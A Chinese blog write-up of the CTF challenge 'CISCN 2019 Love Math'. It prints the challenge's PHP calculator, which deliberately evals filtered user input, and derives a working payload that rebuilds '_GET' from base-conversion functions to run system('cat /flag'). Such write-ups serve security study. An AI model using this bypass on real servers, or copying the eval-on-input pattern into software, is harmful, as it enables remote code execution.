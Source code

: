 ```yaml
---

title: 日常练习15

date: 2021-04-12 23:22:15

tags: 练习

categories: test63

---
```

今天做到一道比较有意思的题目，记录一下，扩充一下解题思路。  

# [CISCN 2019 初赛]Love Math  

打开题目就能看到源码：   

	<?php
	error_reporting(0);
	//听说你很喜欢数学，不知道你是否爱它胜过爱flag
	if(!isset($_GET['c'])){
	    show_source(__FILE__);
	}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
	}  

大致看下来就是一个网页计算器，这个过滤看着也挺严的，只让用数学计算相关的函数，除此之外的字符都会被过滤，但是我们可以看到结尾有eval（）函数，而且执行的就是我们上传的参数，那么我们要如何成功的上传我们要执行的命令语句呢？  

这里就可以看出积累了，（然而我是没这个水平的。。。。），这道题我们可以从它给出的函数来下手。  

首先我们可以看到有一个base_convert()函数。  

[![](https://img.imgdb.cn/item/607928cb8322e6675cc014ac.png)](https://img.imgdb.cn/item/607928cb8322e6675cc014ac.png)  

再来看一个hex2bin() 函数

	hex2bin() 函数把十六进制值的字符串转换为 ASCII 字符。  

最后还要用到dechex() 函数

dechex() 函数把十进制数转换为十六进制数。  

如果细心一点我们就可以发现这三个函数之间是有联系的，而第一和第三个函数是在函数白名单中的，那么接下来就是我们利用这三个函来构造我们要执行的命令。  

我们要执行的命令是  

	?c=system("cat /flag")  

但是我们要绕黑名单  

	$blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];  

所以我们不能出现system和引号，引号可以省略，而对于system字符的绕过我们可以这样绕过：  

	?c=($_GET[a])($_GET[b])&a=system&b=cat /flag  

这样构造就能使我们get上传的a和b的变量进行拼接后放到c变量中从而绕过了对c的黑名单的检测。而这里的a，b变量可以换成白名单中的函数，比如这样构造：  

	?c=($_GET[pi])($_GET[abs])&pi=system&abs=cat /flag
  
但是我们发现$_GET也不再白名单里，所以我们要把这个字符转换成数字，这里就要用到我们上面讲过的三个函数了。  

	_GET=hex2bin(5f 47 45 54)  

我们使用hex2bin()函数来将_GET的十六进制数转换成ascii字符，而[]可以使用{}来绕过。  

但是hex2bin()也是白名单之外的函数。那么我们就使用base_convert()函数将10进制数转化为36进制的hex2bin。  

可以知道36进制下的hex2bin的10进制是37907361743，所以   

	hex2bin=base_convert(37907361743,10,36)  

而5f 47 45 54也会被  

	preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  

过滤，所以我们要把它转化成纯数字。这里就要用到dechex() 函数，我们先求出5f474554的十进制，然后使用函数把十进制数转换为十六进制数。可以知道5f474554的十进制是1598506324   

	所以5f474554=dechex(1598506324)  

那么我们就可以把_GET转换成下面这样的字符：  

	_GET=hex2bin(5f 47 45 54)=base_convert(37907361743,10,36)(dechex(1598506324))  

我们把_GET存到一个变量里。  

	$pi=base_convert(37907361743,10,36)(dechex(1598506324));   

接下来我们就可以使用$pi来代替_GET这个字符了，我们最终构造出来payload如下：  

	c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=cat /flag   
	
	$pi=_GET,这里的$$pi相当于$_GET.

这样就能得到flag。  

[![](https://img.imgdb.cn/item/607933b28322e6675cd8b1dc.png)](https://img.imgdb.cn/item/607933b28322e6675cd8b1dc.png)

# 小结  

这道题目其实还有别的解法，但是我觉得这种应该是出题人最想考的，考察了对一些特别的函数的积累以及对于这个过滤的理解，利用不同进制转换函数的相互转换从而构造出既符合条件又能执行的payload。  

